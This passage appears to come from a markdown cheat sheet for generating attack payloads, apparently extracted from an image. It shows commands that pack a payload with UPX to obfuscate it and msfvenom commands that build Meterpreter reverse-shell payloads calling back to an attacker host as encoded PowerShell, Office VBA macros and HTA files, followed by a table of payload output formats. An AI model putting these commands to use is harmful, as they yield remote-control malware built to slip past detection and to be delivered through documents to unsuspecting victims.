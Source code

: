### Post-Generation Packing
```bash
# UPX packing (reduces size and obfuscates)
upx --best payload.exe -o packed.exe

# Verify packing
upx -t packed.exe
```

### Format-Specific Evasion
```bash
# PowerShell encoded payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f psh-cmd

# VBA macro for Office documents
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f vba

# HTA application
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f hta-psh > payload.hta
```

---

## 📚 Reference Tables

### Common Output Formats
| Format | Platform | Extension | Use Case |
|--------|----------|-----------|----------|
| `exe` | Windows | `.exe` | Standalone executable |
| `elf` | Linux | `.elf` | Linux binary |
| `macho` | macOS | `.macho` | macOS binary |
| `apk` | Android | `.apk` | Android application |
| `war` | Java Web | `.war` | Web application |
| `asp` | Windows Web | `.asp` | Classic ASP |
| `aspx` | Windows Web | `.aspx` | ASP.NET |
| `jsp` | Java Web | `.jsp` | Java Server Pages |
| `php` | Web | `.php` | PHP script |
| `py` | Cross-platform | `.py` | Python script |
| `ps1` | Windows | `.ps1` | PowerShell script |
| `hta` | Windows | `.hta` | HTML Application |
| `vba` | Office | `.vba` | VBA Macro |

